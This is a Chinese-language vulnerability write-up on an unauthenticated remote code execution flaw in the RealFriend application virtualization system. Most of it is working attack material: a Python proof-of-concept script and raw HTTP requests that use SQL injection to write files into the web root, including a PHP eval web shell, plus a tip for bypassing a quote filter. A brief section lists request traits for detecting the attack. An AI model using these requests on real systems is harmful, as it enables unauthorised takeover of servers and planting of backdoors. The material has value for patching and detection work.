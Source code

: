 # 瑞友天翼应用虚拟化系统存在远程代码执行

## 漏洞介绍

瑞友天翼应用虚拟化系统是西安瑞友信息技术资讯有限公司研发的具有自主知识产权，基于服务器计算架构的应用虚拟化平台。它将用户各种应用软件集中部署在瑞友天翼服务器(群)上，客户端通过WEB即可快速安全的访问经服务器上授权的应用软件，实现集中应用、远程接入、协同办公等，从而为用户打造集中、便捷、安全、高效的虚拟化支撑平台。

瑞友天翼应用虚拟化系统存在远程代码执行漏洞，未经身份认证的远程攻击者可以利用该漏洞在目标系统上执行任意代码（该漏洞是通过SQL注入写入后门文件进行代码执行）。

## 影响版本

5.x <= 瑞友天翼应用虚拟化系统 <= 7.0.2.1

## 漏洞利用

Poc

```python
import requests
import sys
 
url = sys.argv[1]
payload="/AgentBoard.XGI?user=-1%27+union+select+1%2C%27%3C%3Fphp+phpinfo%28%29%3B%3F%3E%27+into+outfile+%22C%3A%5C%5CProgram%5C+Files%5C+%5C%28x86%5C%29%5C%5CRealFriend%5C%5CRap%5C+Server%5C%5CWebRoot%5C%5C1.php%22+--+-&cmd=UserLogin"
repose = requests.get(url=url+payload)
if repose.status_code ==200:
    a = url + '1.php'
    b = requests.get(url=a)
    if b.status_code == 200:
        print('[+] 漏洞存在，验证地址: {}1.php '.format(url))
```

通过sql注入写入php文件，内容是phpinfo()(只对默认安装路径起作用，请根据环境自行修改payload中的路径)。

利用burp进行测试：

```yml
GET /AgentBoard.XGI?user=-1%27+union+select+1%2C%27%3C%3Fphp+phpinfo%28%29%3B%3F%3E%27+into+outfile+%22C%3A%5C%5CProgram%5C+Files%5C+%5C%28x86%5C%29%5C%5CRealFriend%5C%5CRap%5C+Server%5C%5CWebRoot%5C%5C2.php%22+--+-&cmd=UserLogin HTTP/1.1
Host: 192.168.189.129
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: CookieLanguageName=ZH-CN; CookieAuthType=0
Upgrade-Insecure-Requests: 1
```

然后访问`http://192.168.189.129/2.php`即可

尝试写入php一句话马子,需要对特殊符号进行url编码（经测试，漏洞环境过滤了单引号，需采用双引号或者使用hex编码bypass）

```yml
GET /AgentBoard.XGI?user=-1%27+union+select+1%2C%27%3c%3fphp+eval%28%24%5fPOST%5b%22cmd%22%5d%29%3b%3f%3e%27+into+outfile+%22C%3A%5C%5CProgram%5C+Files%5C+%5C%28x86%5C%29%5C%5CRealFriend%5C%5CRap%5C+Server%5C%5CWebRoot%5C%5C5.php%22+--+-&cmd=UserLogin HTTP/1.1
Host: 192.168.189.129
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: CookieLanguageName=ZH-CN; CookieAuthType=0
Upgrade-Insecure-Requests: 1
```

## 研判分析

- 请求方法：GET
- 请求路径包含：'/AgentBoard.XGI?user'、'into+outfile'
- 请求路径中部分编码数据需要解码后再进行分析
- 响应状态码：200
- 可根据解码内容中的shell文件，排查web服务目录下是否存在恶意文件

## 参考链接

瑞友天翼应用虚拟化系统RCE漏洞复现+利用

<https://blog.csdn.net/qq_41904294/article/details/130231497?ydreferer=aHR0cHM6Ly93d3cuYmluZy5jb20v>
